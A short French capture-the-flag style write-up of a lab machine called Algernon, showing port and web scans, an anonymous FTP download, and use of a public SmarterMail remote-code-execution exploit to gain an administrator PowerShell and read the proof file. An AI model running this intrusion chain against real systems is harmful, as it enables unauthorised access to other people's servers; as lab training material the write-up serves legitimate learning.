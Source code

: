 
# Algernon

	sudo  masscan  -p1-65535,U:1-65535 192.168.212.65 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.212.65
	ffuf -u http://192.168.212.65/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -e .php,.txt,.ini,.conf,.log -fc 403
	
Scans classiques. J'ai opté pour FFUF parce que Feroxbuster donnait des résultats étranges avec plein de faux-positifs.

    PORT      STATE SERVICE       VERSION
    21/tcp    open  ftp           Microsoft ftpd
    80/tcp    open  http          Microsoft IIS httpd 10.0
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds?
    9998/tcp  open  http          Microsoft IIS httpd 10.0
    17001/tcp open  remoting      MS .NET Remoting services

Rien sur le premier site web mais le partage FTP semble ouvert aux connexions anonymes. J'ai trouvé une bonne manière de télécharger tout le contenu d'un serveur FTP directement : 

    wget -r ftp://anonymous:""@192.168.212.65/

Rien de bien intéressant quand on fouille. Il n'y a que deux fichiers de logs contenant des informations sur la mise à jour d'une base de données ClamAV et sur une tâche planifiée quotidienne.

En revanche le deuxième service web du port 9998 amène à une page intéressante : http://192.168.212.65:9998/interface/root#/login

Je n'ai pas réussi à trouver la version exacte du CMS mais en ne cherchant que le nom sur Exploit-DB on tombe sur une liste qui n'est pas si grande : https://www.exploit-db.com/search?q=smartermail

J'ai commencé par tester la seule RCE du lot, puisque la plupart des VM faciles ont souvent ce pattern, et c'est passé : 

    vim exploit_SmarterMail.py
    python3 ~/000_exploits/exploit_SmarterMail.py 
    PS C:\Windows\system32> whoami
    PS C:\Windows\system32>	type C:\Users\Administrator\Desktop\proof.txt







